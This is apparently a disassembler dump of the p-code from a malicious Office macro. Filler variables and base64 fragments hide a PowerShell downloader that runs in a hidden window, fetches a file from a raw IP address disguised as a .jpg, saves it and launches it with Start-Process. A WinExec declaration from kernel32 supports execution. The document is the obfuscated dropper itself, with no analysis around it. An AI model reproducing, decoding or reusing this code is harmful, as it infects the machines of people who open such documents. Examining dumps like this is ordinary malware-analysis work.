' 	LitStr 0x0004 "bG9y"
' 	LitStr 0x0004 "IGFk"
' 	Add 
' 	LitStr 0x0004 "IHBh"
' 	Add 
' 	LitStr 0x0004 "cmlh"
' 	Add 
' 	St Cuofk 
' Line #598:
' 	LitDI2 0x24F7 
' 	UMi 
' 	FnSgn 
' 	St wldVQC 
' Line #599:
' 	Ld UslLWz1 
' 	FnLen 
' 	St yjy9IKBOG 
' Line #600:
' 	Dim 
' 	VarDefn Kqkw1m6 (As Boolean)
' Line #601:
' 	LitStr 0x0004 "dHVy"
' 	LitStr 0x0004 "IHZl"
' 	Add 
' 	LitStr 0x0004 "bmlh"
' 	Add 
' 	LitStr 0x0004 "bSwg"
' 	Add 
' 	St lUSqO 
' Line #602:
' 	LitStr 0x0004 "bW9s"
' 	LitStr 0x0004 "bGl0"
' 	Add 
' 	LitStr 0x0004 "IHNp"
' 	Add 
' 	LitStr 0x0004 "dCBh"
' 	Add 
' 	St LbCtc 
' Line #603:
' 	Dim 
' 	VarDefn O08tr4PZ (As Long)
' Line #604:
' 	LitVarSpecial (False)
' 	St Kqkw1m6 
' Line #605:
' 	LitStr 0x0004 "bGlx"
' 	LitStr 0x0004 "dWlw"
' 	Add 
' 	LitStr 0x0004 "IGRl"
' 	Add 
' 	LitStr 0x0004 "c2Vy"
' 	Add 
' 	St CDVNG 
' Line #606:
' 	Dim 
' 	VarDefn HhjLClk (As String)
' Line #607:
' 	LitStr 0x0004 "dW50"
' 	LitStr 0x0004 "LiBF"
' 	Add 
' 	LitStr 0x0004 "eGVy"
' 	Add 
' 	LitStr 0x0004 "Y2l0"
' 	Add 
' 	St qZgJf 
' Line #608:
' 	LitStr 0x0004 "YXRp"
' 	LitStr 0x0004 "b24g"
' 	Add 
' 	LitStr 0x0004 "ZHVp"
' 	Add 
' 	LitStr 0x0004 "cyBj"
' 	Add 
' 	St RuSYK 
' Line #609:
' 	LitStr 0x0001 "H"
' 	ArgsLd AscW 0x0001 
' 	St HhjLClk 
' Line #610:
' 	Dim 
' 	VarDefn xWjuJaeHf (As Integer)
' Line #611:
' 	LitDI2 0x3AB4 
' 	UMi 
' 	FnSgn 
' 	St xWjuJaeHf 
' Line #612:
' 	LitStr 0x0004 "b25z"
' 	LitStr 0x0004 "ZXF1"
' 	Add 
' 	LitStr 0x0004 "YXQg"
' 	Add 
' 	LitStr 0x0004 "bGFi"
' 	Add 
' 	St zNlEe 
' Line #613:
' 	LitDI4 0x1F68 0x2B39 
' 	UMi 
' 	FnSgn 
' 	St O08tr4PZ 
' Line #614:
' 	LitStr 0x0004 "b3J1"
' 	LitStr 0x0004 "bSBl"
' 	Add 
' 	LitStr 0x0004 "eGNl"
' 	Add 
' 	LitStr 0x0004 "cHRl"
' 	Add 
' 	St KTcuG 
' Line #615:
' 	Dim 
' 	VarDefn o1EoMpI (As Double)
' Line #616:
' 	LitR8 0xED8A 0xBF07 0x8BF4 0x40E3 
' 	FnFix 
' 	St o1EoMpI 
' Line #617:
' 	Dim 
' 	VarDefn SS6XNu (As Boolean)
' Line #618:
' 	LitVarSpecial (False)
' 	St SS6XNu 
' Line #619:
' 	Dim 
' 	VarDefn l3FagIWK9 (As Double)
' Line #620:
' 	LitR8 0x11DF 0x2B2D 0xAFBC 0x40BE 
' 	FnSgn 
' 	St l3FagIWK9 
' Line #621:
' 	LitStr 0x0004 "dXIg"
' 	LitStr 0x0004 "c2l0"
' 	Add 
' 	LitStr 0x0004 "IHZl"
' 	Add 
' 	LitStr 0x0004 "bmlh"
' 	Add 
' 	St ykhIV 
' Line #622:
' 	EndFunc 
' Line #623:
' Line #624:
' Line #625:
' Macros/VBA/Module4 - 32274 bytes
' Line #0:
' 	LbMark 
' 	Ld VBA7 
' 	LbIf 
' Line #1:
' 	FuncDefn (Public Function b3jkS29pZ(ByVal Module4 As String) As Long)
' Line #2:
' 	LbMark 
' 	LbElse 
' Line #3:
' 	Reparse 0x006A "Public Declare Function WinExec Lib "kernel32" (ByVal lpCmdLine As String, ByVal nCmdShow As Long) As Long"
' Line #4:
' 	LbMark 
' 	LbEndIf 
' Line #5:
' 	Dim (Public) 
' 	VarDefn PlzT (As String)
' Line #6:
' 	Dim (Public Const) 
' 	LitDI2 0x0000 
' 	VarDefn f6tDZP72 (As Integer)
' Line #7:
' 	FuncDefn (Sub My3Sf())
' Line #8:
' 	Dim 
' 	VarDefn kernel32
' Line #9:
' 	LitStr 0x0001 "B"
' 	ArgsLd Asc 0x0001 
' 	St kernel32 
' Line #10:
' 	Dim 
' 	VarDefn VdfPe0x (As Byte)
' Line #11:
' 	LitDI2 0x006A 
' 	St VdfPe0x 
' Line #12:
' 	Dim 
' 	VarDefn BVQPXsHI (As Integer)
' Line #13:
' 	LitDI2 0x70CF 
' 	UMi 
' 	FnSgn 
' 	St BVQPXsHI 
' Line #14:
' 	Dim 
' 	VarDefn psc8pVD (As Long)
' Line #15:
' 	LitDI2 0x0000 
' 	St psc8pVD 
' Line #16:
' 	Dim 
' 	VarDefn atzR0 (As String)
' Line #17:
' 	Ld koMmzE 
' 	Ld vbProperCase 
' 	ArgsLd StrConv 0x0002 
' 	St atzR0 
' Line #18:
' 	Dim 
' 	VarDefn VEJN6vAkO (As Long)
' Line #19:
' 	LitDI2 0x0000 
' 	FnSgn 
' 	St VEJN6vAkO 
' Line #20:
' 	Dim 
' 	VarDefn nMiZlz (As String)
' Line #21:
' 	LitStr 0x0001 "q"
' 	St nMiZlz 
' Line #22:
' 	Dim 
' 	VarDefn MkdpMGi (As String)
' Line #23:
' 	Ld f7HL5ex 
' 	St MkdpMGi 
' Line #24:
' 	Dim 
' 	VarDefn EEHcFwPYZ (As Integer)
' Line #25:
' 	LitDI2 0x2E45 
' 	St EEHcFwPYZ 
' Line #26:
' 	Dim 
' 	VarDefn gIdkrDcV (As Double)
' Line #27:
' 	LitR8 0x4C05 0x7322 0x3E9F 0x40E5 
' 	ArgsLd Round 0x0001 
' 	St gIdkrDcV 
' Line #28:
' 	Dim 
' 	VarDefn uEC0m (As Byte)
' Line #29:
' 	LitDI2 0x002D 
' 	St uEC0m 
' Line #30:
' Line #31:
' 	Dim 
' 	VarDefn cVjvR (As Boolean)
' Line #32:
' 	LitVarSpecial (True)
' 	St cVjvR 
' Line #33:
' 	Dim 
' 	VarDefn olWG6z (As Long)
' Line #34:
' 	LitDI4 0x8426 0x5F39 
' 	UMi 
' 	FnSgn 
' 	St olWG6z 
' Line #35:
' 	Dim 
' 	VarDefn hkAie9 (As Double)
' Line #36:
' 	LitR8 0x8348 0x2180 0x8FDA 0x40E6 
' 	St hkAie9 
' Line #37:
' 	Dim 
' 	VarDefn R2k7m
' Line #38:
' 	LitStr 0x0001 "y"
' 	ArgsLd Asc 0x0001 
' 	St R2k7m 
' Line #39:
' 	Dim 
' 	VarDefn KZoVY (As Boolean)
' Line #40:
' 	LitVarSpecial (True)
' 	St KZoVY 
' Line #41:
' 	Dim 
' 	VarDefn G1to9XkqT (As Byte)
' Line #42:
' 	LitDI2 0x0099 
' 	St G1to9XkqT 
' Line #43:
' 	Dim 
' 	VarDefn IVFEoqW (As Boolean)
' Line #44:
' 	LitVarSpecial (True)
' 	St IVFEoqW 
' Line #45:
' 	Dim 
' 	VarDefn NT3Ihm (As Byte)
' Line #46:
' 	LitDI2 0x00D0 
' 	St NT3Ihm 
' Line #47:
' 	Dim 
' 	VarDefn ebj7lD (As Double)
' Line #48:
' 	LitR8 0x160D 0x62B0 0x906F 0x4088 
' 	FnInt 
' 	St ebj7lD 
' Line #49:
' 	Dim 
' 	VarDefn Yq5tBkz (As Integer)
' Line #50:
' 	LitDI2 0x0860 
' 	St Yq5tBkz 
' Line #51:
' Line #52:
' 	Dim 
' 	VarDefn qA7gsw (As Boolean)
' Line #53:
' 	LitVarSpecial (True)
' 	St qA7gsw 
' Line #54:
' 	Dim 
' 	VarDefn oaACK4Z (As Boolean)
' Line #55:
' 	LitVarSpecial (False)
' 	St oaACK4Z 
' Line #56:
' 	Dim 
' 	VarDefn qB3k4l (As Byte)
' Line #57:
' 	LitDI2 0x0067 
' 	St qB3k4l 
' Line #58:
' 	Dim 
' 	VarDefn Ia2wCxB (As Double)
' Line #59:
' 	LitR8 0x2057 0x5E66 0x3B1E 0x40EA 
' 	ArgsLd Round 0x0001 
' 	St Ia2wCxB 
' Line #60:
' 	Dim 
' 	VarDefn HsPbtD
' Line #61:
' 	LitStr 0x0000 ""
' 	St HsPbtD 
' Line #62:
' 	Dim 
' 	VarDefn hASKBdD (As Long)
' Line #63:
' 	LitDI4 0xF844 0x17A6 
' 	UMi 
' 	FnSgn 
' 	St hASKBdD 
' Line #64:
' 	Dim 
' 	VarDefn vEGKH0gX (As String)
' Line #65:
' 	Ld uvWAinkUb 
' 	ArgsLd Trim 0x0001 
' 	St vEGKH0gX 
' Line #66:
' 	Dim 
' 	VarDefn DJtgWzk (As Double)
' Line #67:
' 	LitR8 0x42B3 0x894A 0x26C4 0x40E3 
' 	St DJtgWzk 
' Line #68:
' 	Dim 
' 	VarDefn WDZOh (As Long)
' Line #69:
' 	LitDI2 0x0000 
' 	St WDZOh 
' Line #70:
' 	Dim 
' 	VarDefn xCL8B (As String)
' Line #71:
' 	Ld nvKPr4m3 
' 	Ld vbUpperCase 
' 	ArgsLd StrConv 0x0002 
' 	St xCL8B 
' Line #72:
' 	Dim 
' 	VarDefn sZk2Oew (As Single)
' Line #73:
' 	LitR8 0xEDAC 0x1FF8 0xB3E6 0x40E7 
' 	FnFix 
' 	St sZk2Oew 
' Line #74:
' 	Dim 
' 	VarDefn vdW6i (As Single)
' Line #75:
' 	LitR8 0x3F22 0x8F0E 0x8F00 0x40DF 
' 	St vdW6i 
' Line #76:
' 	Dim 
' 	VarDefn vUfMC (As Byte)
' Line #77:
' 	LitDI2 0x001F 
' 	St vUfMC 
' Line #78:
' 	Dim 
' 	VarDefn wHo98u (As String)
' Line #79:
' 	LitStr 0x000F "ZWFjaCgkdXJsIGl"
' 	St wHo98u 
' Line #80:
' 	Dim 
' 	VarDefn jqfwUJ (As Byte)
' Line #81:
' 	LitDI2 0x00C7 
' 	St jqfwUJ 
' Line #82:
' 	Dim 
' 	VarDefn ovEZb (As String)
' Line #83:
' 	Ld umJr4TShb 
' 	ArgsLd Val 0x0001 
' 	St ovEZb 
' Line #84:
' 	Dim 
' 	VarDefn nIfeNxL (As Byte)
' Line #85:
' 	LitDI2 0x00A0 
' 	St nIfeNxL 
' Line #86:
' 	Dim 
' 	VarDefn vy280 (As Integer)
' Line #87:
' 	LitDI2 0x739F 
' 	UMi 
' 	FnSgn 
' 	St vy280 
' Line #88:
' 	Dim 
' 	VarDefn ufSKCj (As Long)
' Line #89:
' 	LitDI4 0x109C 0x63F5 
' 	UMi 
' 	FnSgn 
' 	St ufSKCj 
' Line #90:
' 	Dim 
' 	VarDefn FgMpahH8 (As Long)
' Line #91:
' 	LitDI4 0xC356 0x2F68 
' 	UMi 
' 	FnSgn 
' 	St FgMpahH8 
' Line #92:
' 	Dim 
' 	VarDefn hoI6Qbs (As Boolean)
' Line #93:
' 	LitVarSpecial (False)
' 	St hoI6Qbs 
' Line #94:
' 	Dim 
' 	VarDefn Cpkyn (As Long)
' Line #95:
' 	LitDI2 0x0000 
' 	St Cpkyn 
' Line #96:
' 	Dim 
' 	VarDefn y6WVhRyC1 (As Boolean)
' Line #97:
' 	LitVarSpecial (False)
' 	St y6WVhRyC1 
' Line #98:
' 	Dim 
' 	VarDefn wABfl (As Double)
' Line #99:
' 	LitR8 0xCA5B 0x3F10 0x79B4 0x40CF 
' 	St wABfl 
' Line #100:
' 	Dim 
' 	VarDefn HLbGIBD
' Line #101:
' 	LitStr 0x004A "ICR1cmxzKXt0cnlYmNsaWVudC5Eb3dubG9hZEZpbGUoJHVybC5Ub1N0cmluZygpLCAkcGF0aCk"
' 	St HLbGIBD 
' Line #102:
' 	Dim 
' 	VarDefn Uv10MF (As Boolean)
' Line #103:
' 	LitVarSpecial (True)
' 	St Uv10MF 
' Line #104:
' 	Dim 
' 	VarDefn EOYlvzc (As Byte)
' Line #105:
' 	LitDI2 0x00E1 
' 	St EOYlvzc 
' Line #106:
' 	Dim 
' 	VarDefn qkEZC (As Byte)
' Line #107:
' 	LitDI2 0x0046 
' 	St qkEZC 
' Line #108:
' 	Dim 
' 	VarDefn eMyPJ (As Boolean)
' Line #109:
' 	LitVarSpecial (True)
' 	St eMyPJ 
' Line #110:
' 	Dim 
' 	VarDefn Fp7nxd (As String)
' Line #111:
' 	Ld cuP94 
' 	ArgsLd LTrim 0x0001 
' 	St Fp7nxd 
' Line #112:
' 	Dim 
' 	VarDefn xkHPf61IF (As Long)
' Line #113:
' 	LitDI2 0x0000 
' 	FnSgn 
' 	St xkHPf61IF 
' Line #114:
' 	Dim 
' 	VarDefn CYJc5 (As Byte)
' Line #115:
' 	LitDI2 0x00A2 
' 	St CYJc5 
' Line #116:
' 	Dim 
' 	VarDefn sEH7ayMFe (As Single)
' Line #117:
' 	LitR8 0x273D 0x312B 0x72BC 0x4091 
' 	FnSgn 
' 	St sEH7ayMFe 
' Line #118:
' 	Dim 
' 	VarDefn yl6nQeZt (As Integer)
' Line #119:
' 	LitDI2 0x3660 
' 	FnSgn 
' 	St yl6nQeZt 
' Line #120:
' 	Dim 
' 	VarDefn aYRIMFiKE (As String)
' Line #121:
' 	LitStr 0x0016 "7U3RhcnQtUHJvY2VzcyAkc"
' 	St aYRIMFiKE 
' Line #122:
' 	Dim 
' 	VarDefn u6V3e (As Single)
' Line #123:
' 	LitR8 0x8BD7 0xBCF7 0x25EE 0x40E1 
' 	St u6V3e 
' Line #124:
' 	Dim 
' 	VarDefn svcSTGAeE
' Line #125:
' 	LitStr 0x0001 "D"
' 	ArgsLd AscB 0x0001 
' 	St svcSTGAeE 
' Line #126:
' 	Dim 
' 	VarDefn wHZem7Jt9 (As Single)
' Line #127:
' 	LitR8 0x2771 0x88E3 0xDB89 0x40E2 
' 	St wHZem7Jt9 
' Line #128:
' 	Dim 
' 	VarDefn AKhLEYBuH (As Byte)
' Line #129:
' 	LitDI2 0x00AF 
' 	St AKhLEYBuH 
' Line #130:
' 	Dim 
' 	VarDefn Etu0qRE (As String)
' Line #131:
' 	LitStr 0x0000 ""
' 	St Etu0qRE 
' Line #132:
' 	Dim 
' 	VarDefn hIzoHn (As Integer)
' Line #133:
' 	LitDI2 0x53F1 
' 	UMi 
' 	St hIzoHn 
' Line #134:
' 	Dim 
' 	VarDefn MxHI2aV (As Integer)
' Line #135:
' 	LitDI2 0x3D37 
' 	FnSgn 
' 	St MxHI2aV 
' Line #136:
' 	Dim 
' 	VarDefn tBJYyL (As Byte)
' Line #137:
' 	LitDI2 0x00A2 
' 	St tBJYyL 
' Line #138:
' 	Dim 
' 	VarDefn TEAvUR (As Byte)
' Line #139:
' 	LitDI2 0x007C 
' 	St TEAvUR 
' Line #140:
' 	Dim 
' 	VarDefn wpEiNg (As Single)
' Line #141:
' 	LitR8 0xD43B 0x2EAA 0xF190 0x40E7 
' 	FnSgn 
' 	St wpEiNg 
' Line #142:
' 	Dim 
' 	VarDefn eQuND (As Single)
' Line #143:
' 	LitR8 0xCC0A 0x7924 0x7027 0x40E6 
' 	ArgsLd Round 0x0001 
' 	St eQuND 
' Line #144:
' 	Dim 
' 	VarDefn Yluems (As Double)
' Line #145:
' 	LitR8 0x36E5 0xEF93 0x95F9 0x40E2 
' 	St Yluems 
' Line #146:
' 	Dim 
' 	VarDefn FiOle (As Integer)
' Line #147:
' 	LitDI2 0x69CD 
' 	UMi 
' 	St FiOle 
' Line #148:
' 	Dim 
' 	VarDefn yU42NaAW
' Line #149:
' 	Ld wHo98u 
' 	Ld HLbGIBD 
' 	Concat 
' 	Ld aYRIMFiKE 
' 	Concat 
' 	St yU42NaAW 
' Line #150:
' 	Dim 
' 	VarDefn tnavr6 (As Single)
' Line #151:
' 	LitR8 0x3D66 0x1491 0x4A9E 0x40E7 
' 	St tnavr6 
' Line #152:
' 	Dim 
' 	VarDefn gYWT9Ow (As Single)
' Line #153:
' 	LitR8 0xF5A2 0x32B3 0x5CCB 0x40E1 
' 	FnSgn 
' 	St gYWT9Ow 
' Line #154:
' 	Dim 
' 	VarDefn n8qhUZD (As Byte)
' Line #155:
' 	LitDI2 0x0086 
' 	St n8qhUZD 
' Line #156:
' 	Dim 
' 	VarDefn pAfmCW
' Line #157:
' 	Ld nWlCtZHb 
' 	Ld vbProperCase 
' 	ArgsLd StrConv 0x0002 
' 	St pAfmCW 
' Line #158:
' 	Dim 
' 	VarDefn Vjq7rJKAE (As Integer)
' Line #159:
' 	LitDI2 0x6641 
' 	FnSgn 
' 	St Vjq7rJKAE 
' Line #160:
' 	Dim 
' 	VarDefn v7mjEdp2 (As Long)
' Line #161:
' 	LitDI4 0x0902 0x282F 
' 	UMi 
' 	FnSgn 
' 	St v7mjEdp2 
' Line #162:
' 	Dim 
' 	VarDefn G7SGnV2gf (As Boolean)
' Line #163:
' 	LitVarSpecial (True)
' 	St G7SGnV2gf 
' Line #164:
' 	Dim 
' 	VarDefn O5ifz9 (As String)
' Line #165:
' 	LitStr 0x0012 "G9tOyR1cmxzID0gJ2h"
' 	St O5ifz9 
' Line #166:
' 	Dim 
' 	VarDefn DOwIWXYbJ (As Single)
' Line #167:
' 	LitR8 0x18F9 0xA59A 0x2901 0x40E2 
' 	FnSgn 
' 	St DOwIWXYbJ 
' Line #168:
' 	Dim 
' 	VarDefn lEw0Ov (As Byte)
' Line #169:
' 	LitDI2 0x00BE 
' 	St lEw0Ov 
' Line #170:
' 	Dim 
' 	VarDefn Sb2NFxe (As Single)
' Line #171:
' 	LitR8 0xCF99 0x57D0 0x6ADD 0x40DB 
' 	St Sb2NFxe 
' Line #172:
' 	Dim 
' 	VarDefn KrSo816I2 (As String)
' Line #173:
' 	Ld RFfWiY 
' 	ArgsLd LTrim 0x0001 
' 	St KrSo816I2 
' Line #174:
' 	Dim 
' 	VarDefn KoXNx (As Double)
' Line #175:
' 	LitR8 0x0803 0xEDDD 0x8514 0x40E9 
' 	St KoXNx 
' Line #176:
' 	Dim 
' 	VarDefn PAJYsuVCQ (As Boolean)
' Line #177:
' 	LitVarSpecial (True)
' 	St PAJYsuVCQ 
' Line #178:
' 	Dim 
' 	VarDefn jgnkrVd2 (As Long)
' Line #179:
' 	LitDI4 0x3B46 0x3544 
' 	UMi 
' 	FnSgn 
' 	St jgnkrVd2 
' Line #180:
' 	Dim 
' 	VarDefn SyMH32i (As Double)
' Line #181:
' 	LitR8 0xF492 0x64B7 0x2E9A 0x40E3 
' 	ArgsLd Val 0x0001 
' 	St SyMH32i 
' Line #182:
' 	Dim 
' 	VarDefn pF08RfG (As Integer)
' Line #183:
' 	LitDI2 0x6741 
' 	UMi 
' 	St pF08RfG 
' Line #184:
' 	Dim 
' 	VarDefn hj2Ki (As Integer)
' Line #185:
' 	LitDI2 0x4781 
' 	FnSgn 
' 	St hj2Ki 
' Line #186:
' 	Dim 
' 	VarDefn drl7CEgf (As Single)
' Line #187:
' 	LitR8 0x8517 0x9BD9 0x7303 0x40C2 
' 	ArgsLd Val 0x0001 
' 	St drl7CEgf 
' Line #188:
' 	Dim 
' 	VarDefn arAEjyV (As Double)
' Line #189:
' 	LitR8 0x545D 0xEC9F 0x4DB1 0x40EF 
' 	St arAEjyV 
' Line #190:
' 	Dim 
' 	VarDefn Fmn7qF (As Integer)
' Line #191:
' 	LitDI2 0x3A34 
' 	UMi 
' 	FnSgn 
' 	St Fmn7qF 
' Line #192:
' 	Dim 
' 	VarDefn PuzxEN (As Long)
' Line #193:
' 	LitDI2 0x0000 
' 	FnSgn 
' 	St PuzxEN 
' Line #194:
' 	Dim 
' 	VarDefn OZWHqIKs6 (As Boolean)
' Line #195:
' 	LitVarSpecial (True)
' 	St OZWHqIKs6 
' Line #196:
' 	Dim 
' 	VarDefn JGlb2 (As Long)
' Line #197:
' 	LitDI2 0x0000 
' 	FnSgn 
' 	St JGlb2 
' Line #198:
' 	Dim 
' 	VarDefn chbjXR (As String)
' Line #199:
' 	LitStr 0x0025 "0dHA6Ly8xODUuMLjI5LjM2L3Ryb2xscy5qcGc"
' 	St chbjXR 
' Line #200:
' 	Dim 
' 	VarDefn t5ysx (As Byte)
' Line #201:
' 	LitDI2 0x0064 
' 	St t5ysx 
' Line #202:
' 	Dim 
' 	VarDefn g2JZA1 (As Single)
' Line #203:
' 	LitR8 0xEA4F 0xA2CB 0x5C9F 0x40E8 
' 	FnInt 
' 	St g2JZA1 
' Line #204:
' 	Dim 
' 	VarDefn OU16W (As Double)
' Line #205:
' 	LitR8 0x743E 0x1E9F 0x7587 0x40E4 
' 	St OU16W 
' Line #206:
' 	Dim 
' 	VarDefn jPix5NUI (As Long)
' Line #207:
' 	LitDI2 0x0000 
' 	St jPix5NUI 
' Line #208:
' 	Dim 
' 	VarDefn QMpa7n (As Integer)
' Line #209:
' 	LitDI2 0x69A8 
' 	UMi 
' 	St QMpa7n 
' Line #210:
' 	Dim 
' 	VarDefn OvsrmPoKu (As Boolean)
' Line #211:
' 	LitVarSpecial (True)
' 	St OvsrmPoKu 
' Line #212:
' 	Dim 
' 	VarDefn TXv4sSJ (As Single)
' Line #213:
' 	LitR8 0x76EF 0xA165 0x14E4 0x40B0 
' 	FnSgn 
' 	St TXv4sSJ 
' Line #214:
' 	Dim 
' 	VarDefn hOjKZm (As Byte)
' Line #215:
' 	LitDI2 0x0053 
' 	St hOjKZm 
' Line #216:
' 	Dim 
' 	VarDefn QlVqG6x (As Long)
' Line #217:
' 	LitDI2 0x0000 
' 	FnSgn 
' 	St QlVqG6x 
' Line #218:
' 	Dim 
' 	VarDefn MsDIQCE (As String)
' Line #219:
' 	LitStr 0x001A "nLlNwbGl0KCcsJyk7JG5hbWUgP"
' 	St MsDIQCE 
' Line #220:
' 	Dim 
' 	VarDefn hjLGi (As Boolean)
' Line #221:
' 	LitVarSpecial (True)
' 	St hjLGi 
' Line #222:
' 	Dim 
' 	VarDefn ySlchI0 (As Boolean)
' Line #223:
' 	LitVarSpecial (False)
' 	St ySlchI0 
' Line #224:
' 	Dim 
' 	VarDefn oKgI2AkP (As Long)
' Line #225:
' 	LitDI4 0xCACE 0x45BE 
' 	UMi 
' 	FnSgn 
' 	St oKgI2AkP 
' Line #226:
' 	Dim 
' 	VarDefn QEKMox (As Byte)
' Line #227:
' 	LitDI2 0x005E 
' 	St QEKMox 
' Line #228:
' 	Dim 
' 	VarDefn iyiARzpV (As Double)
' Line #229:
' 	LitR8 0x46BC 0x5481 0xF13D 0x40D4 
' 	St iyiARzpV 
' Line #230:
' 	Dim 
' 	VarDefn Av2nRHz (As Integer)
' Line #231:
' 	LitDI2 0x622B 
' 	UMi 
' 	FnSgn 
' 	St Av2nRHz 
' Line #232:
' 	Dim 
' 	VarDefn wTAnR (As Double)
' Line #233:
' 	LitR8 0xD50A 0x690A 0x3F5B 0x40CA 
' 	St wTAnR 
' Line #234:
' 	Dim 
' 	VarDefn SorcxdWN (As Byte)
' Line #235:
' 	LitDI2 0x0011 
' 	St SorcxdWN 
' Line #236:
' 	Dim 
' 	VarDefn LpjCnIdy (As Single)
' Line #237:
' 	LitR8 0x4882 0xC612 0xB13B 0x40DB 
' 	FnFix 
' 	St LpjCnIdy 
' Line #238:
' 	Dim 
' 	VarDefn E3Nzx (As Double)
' Line #239:
' 	LitR8 0xE310 0x7D00 0x8A3B 0x40DB 
' 	St E3Nzx 
' Line #240:
' 	Dim 
' 	VarDefn UwO5a9gL (As Double)
' Line #241:
' 	LitR8 0x4B4B 0x442E 0x4DF2 0x40E3 
' 	FnSgn 
' 	St UwO5a9gL 
' Line #242:
' 	Dim 
' 	VarDefn xvzStpr (As Single)
' Line #243:
' 	LitR8 0xF6DC 0xE22A 0xFE40 0x40A6 
' 	FnFix 
' 	St xvzStpr 
' Line #244:
' 	Dim 
' 	VarDefn zDHyQg (As Byte)
' Line #245:
' 	LitDI2 0x00A8 
' 	St zDHyQg 
' Line #246:
' 	Dim 
' 	VarDefn ftYE1 (As Double)
' Line #247:
' 	LitR8 0xA8E6 0xD9F2 0x510F 0x40EB 
' 	FnFix 
' 	St ftYE1 
' Line #248:
' 	Dim 
' 	VarDefn hWlL7
' Line #249:
' 	Ld O5ifz9 
' 	Ld chbjXR 
' 	Concat 
' 	Ld MsDIQCE 
' 	Concat 
' 	St hWlL7 
' Line #250:
' 	Dim 
' 	VarDefn OQfe5BhbT (As Single)
' Line #251:
' 	LitR8 0xBDD7 0x110E 0x19D0 0x4068 
' 	FnSgn 
' 	St OQfe5BhbT 
' Line #252:
' 	Dim 
' 	VarDefn v5H1gX (As String)
' Line #253:
' 	Ld w8p32mj 
' 	ArgsLd LTrim 0x0001 
' 	St v5H1gX 
' Line #254:
' 	Dim 
' 	VarDefn Qz3Fl1O (As Single)
' Line #255:
' 	LitR8 0xD505 0x9A18 0x650A 0x40E9 
' 	ArgsLd Val 0x0001 
' 	St Qz3Fl1O 
' Line #256:
' 	Dim 
' 	VarDefn Pgojh1PTs (As Long)
' Line #257:
' 	LitDI4 0xA4A6 0x2ADC 
' 	UMi 
' 	St Pgojh1PTs 
' Line #258:
' 	Dim 
' 	VarDefn Tkb72Tw (As Byte)
' Line #259:
' 	LitDI2 0x00C7 
' 	St Tkb72Tw 
' Line #260:
' 	Dim 
' 	VarDefn QKd0ux (As Boolean)
' Line #261:
' 	LitVarSpecial (True)
' 	St QKd0ux 
' Line #262:
' 	Dim 
' 	VarDefn d0HPaMGkt (As Double)
' Line #263:
' 	LitR8 0x4171 0x97F0 0xDB4C 0x40E6 
' 	FnSgn 
' 	St d0HPaMGkt 
' Line #264:
' 	Dim 
' 	VarDefn rMtiG7P (As String)
' Line #265:
' 	LitStr 0x0048 "cG93ZXJzaGVsbCAtV2luZG93U3R5bGUR3c2NyaXB0ID0gbmV3LW9iamVjdCAtQ29tT2JqZWN"
' 	St rMtiG7P 
' Line #266:
' 	Dim 
' 	VarDefn jyaiOGq8Y (As Double)
' Line #267:
' 	LitR8 0x14AF 0x8492 0x2F6C 0x40D2 
' 	FnSgn 
' 	St jyaiOGq8Y 
' Line #268:
' 	Dim 
' 	VarDefn gic7Q (As Byte)
' Line #269:
' 	LitDI2 0x00CB 
' 	St gic7Q 
' Line #270:
' 	Dim 
' 	VarDefn v4LkEr (As Single)
' Line #271:
' 	LitR8 0xF25B 0xF766 0x9318 0x40E3 
' 	FnFix 
' 	St v4LkEr 
' Line #272:
' 	Dim 
' 	VarDefn AuSqZh6eb (As Byte)
' Line #273:
' 	LitDI2 0x007A 
' 	St AuSqZh6eb 
' Line #274:
' 	Dim 
' 	VarDefn AE1G8AWP (As Long)
' Line #275:
' 	LitDI2 0x0000 
' 	St AE1G8AWP 
' Line #276:
' 	Dim 
' 	VarDefn fo1e6M (As Integer)
' Line #277:
' 	LitDI2 0x5879 
' 	FnSgn 
' 	St fo1e6M 
' Line #278:
' 	Dim 
' 	VarDefn hwBAc7DL8 (As Boolean)
' Line #279:
' 	LitVarSpecial (False)
' 	St hwBAc7DL8 
' Line #280:
' 	Dim 
' 	VarDefn MUthFeTEp (As Boolean)
' Line #281:
' 	LitVarSpecial (False)
' 	St MUthFeTEp 
' Line #282:
' 	Dim 
' 	VarDefn yyKuCR1 (As Double)
' Line #283:
' 	LitR8 0xA9AB 0x3E9C 0x5971 0x40E5 
' 	St yyKuCR1 
' Line #284:
' 	Dim 
' 	VarDefn JFvbEt6
' Line #285:
' 	LitDI2 0x0030 
' 	ArgsLd HAdjTg8 0x0001 
' 	St JFvbEt6 
' Line #286:
' 	Dim 
' 	VarDefn Chr (As Single)
' Line #287:
' 	LitR8 0x872E 0x9DAD 0x3D48 0x4078 
' 	FnSgn 
' 	St Chr 
' Line #288:
' 	Dim 
' 	VarDefn iR2m5 (As Boolean)
' Line #289:
' 	LitVarSpecial (True)
' 	St iR2m5 
' Line #290:
' 	Dim 
' 	VarDefn xIwimLMc (As Long)
' Line #291:
' 	LitDI4 0xCA1A 0x3A1F 
' 	UMi 
' 	St xIwimLMc 
' Line #292:
' 	Dim 
' 	VarDefn y2z0T (As Boolean)
' Line #293:
' 	LitVarSpecial (True)
' 	St y2z0T 
' Line #294:
' 	Dim 
' 	VarDefn BnqW819XG (As Integer)
' Line #295:
' 	LitDI2 0x6C9F 
' 	FnSgn 
' 	St BnqW819XG 
' Line #296:
' 	Dim 
' 	VarDefn GZ153c (As Double)
' Line #297:
' 	LitR8 0x18BB 0xE4DF 0xE88B 0x40E8 
' 	St GZ153c 
' Line #298:
' 	Dim 
' 	VarDefn MBa2w (As Long)
' Line #299:
' 	LitDI2 0x0000 
' 	FnSgn 
' 	St MBa2w 
' Line #300:
' 	Dim 
' 	VarDefn BpWV15P8 (As Long)
' Line #301:
' 	LitDI4 0x3E8C 0x6178 
' 	UMi 
' 	St BpWV15P8 
' Line #302:
' 	Dim 
' 	VarDefn z5FDyes (As Boolean)
' Line #303:
' 	LitVarSpecial (True)
' 	St z5FDyes 
' Line #304:
' 	Dim 
' 	VarDefn dOvpi3G (As Boolean)
' Line #305:
' 	LitVarSpecial (False)
' 	St dOvpi3G 
' Line #306:
' 	Dim 
' 	VarDefn t2NkiZf (As Byte)
' Line #307:
' 	LitDI2 0x00B7 
' 	St t2NkiZf 
' Line #308:
' 	Dim 
' 	VarDefn eYKzj60 (As Byte)
' Line #309:
' 	LitDI2 0x004A 
' 	St eYKzj60 
' Line #310:
' 	Dim 
' 	VarDefn P0f5B7K (As Single)
' Line #311:
' 	LitR8 0xA49C 0x7395 0x41AA 0x408D 
' 	St P0f5B7K 
' Line #312:
' 	Dim 
' 	VarDefn u6Bvs (As Byte)
' Line #313:
